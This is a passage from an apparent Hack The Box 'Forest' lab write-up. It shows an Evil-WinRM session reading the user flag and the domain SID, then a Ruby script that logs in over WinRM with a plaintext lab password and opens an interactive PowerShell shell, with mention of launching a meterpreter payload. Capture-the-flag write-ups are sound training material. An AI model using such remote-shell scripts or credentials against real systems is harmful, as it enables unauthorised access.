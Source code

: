 
    *Evil-WinRM* PS C:\Users\svc-alfresco> dir Desktop


        Directory: C:\Users\svc-alfresco\Desktop


    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -ar---        9/23/2019   2:16 PM             32 user.txt


    *Evil-WinRM* PS C:\Users\svc-alfresco> type Desktop\user.txt
    e5e4e<redacted>

# Getting root

## evil-winrm and binary

Using evil-Winrm we can also check the domain SID (and our user SID):

    :::text
    whoami /user
    USER INFORMATION
    ----------------

    User Name        SID
    ================ =============================================
    htb\svc-alfresco S-1-5-21-3072663084-364016917-1341370565-1147

Using evil-winrm we can easily upload a binary using the `upload` function.
Nevertheless I was not able to invoke the binary using the `Invoke-binary`
command. Therefore I used a simple ruby script to get on the machine a launch a
msfvenom meterprter:


    :::ruby
    require 'winrm'

    conn = WinRM::Connection.new(
      endpoint: 'http://10.10.10.161:5985/wsman',
      user: 'svc-alfresco',
      password: 's3rvice',
    )

    command=""

    conn.shell(:powershell) do |shell|
        until command == "exit\n" do
            print "PS > "
            command = gets
            output = shell.run(command) do |stdout, stderr|
                STDOUT.print stdout
                STDERR.print stderr
            end
        end
        puts "Exiting with code #{output.exitcode}"
    end
